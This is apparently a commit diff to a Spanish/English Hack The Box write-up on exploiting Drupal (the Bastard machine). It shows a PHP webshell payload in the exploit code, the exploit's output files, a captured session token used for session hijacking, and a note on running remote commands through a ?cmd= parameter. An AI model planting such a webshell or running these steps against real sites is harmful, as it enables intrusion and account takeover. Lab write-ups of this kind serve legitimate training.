

Before and after one commit to HackingProfessional/HTB, a Jekyll site: the page built from _posts/2019-04-20-How-to-hack-a-website-that-uses-Drupal.md, in a window 1280 px wide and 900 px high, scrolled down 4072 px. Shown: the whole window, without its empty margins (188-1091 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2019-04-20-How-to-hack-a-website-that-uses-Drupal.md

````diff
--- a/_posts/2019-04-20-How-to-hack-a-website-that-uses-Drupal.md
+++ b/_posts/2019-04-20-How-to-hack-a-website-that-uses-Drupal.md
@@ -133,6 +133,31 @@ $file = [
     'filename' => 'Gerh.php', /* Indicamos el nombre de nuestro archivo a crear. */
     'data' => '<?php echo(system($_GET["cmd"])); ?>' /* Indicamos que el contenido que tendra el archivo anterior; El parametro CMD nos ayudara a ejecutar comandos sobre nuestro equipo victima */
 ];
+```
+
+After the execution of the exploit, we are exported the following files:
+
+```zsh
+╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Bastard]─[root@Arthorias]─[0]─[4401]
+╰─[:)] # l
+total 292K
+drwxr-xr-x 4 root root 4.0K Apr 17 03:11 .
+drwxr-xr-x 8 root root 4.0K Apr 13 15:23 ..
+-rwxr-xr-x 1 root root 8.8K Apr 17 02:47 41564.php
+-rw-r--r-- 1 root root 1.1K Mar 30 04:48 Bastard.nmap
+-rw-r--r-- 1 root root  187 Apr 17 02:48 session.json
+-rw-r--r-- 1 root root  799 Apr 17 02:48 user.json
+```
+The **sessions.json** file will help us to perform Session Hijacking.
+
+```zsh
+╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Bastard]─[root@Arthorias]─[0]─[4404]
+╰─[:)] # cat session.json
+{
+    "session_name": "SESSd873f26fc11f2b7e6e4aa0f6fce59913",
+    "session_id": "xya-3zwiiR560VcO0uua4q6bP_-Otc8mTV1C27s0ebk",
+    "token": "2dCM4IsWC26XnZkkofSjzmx1Dc6INTn3usnqNEb2fuI"
+}
 ```
 
 To run Remote Code Execution from our webshell we just need to add the parameter ?cmd= and the command we want to run.
````
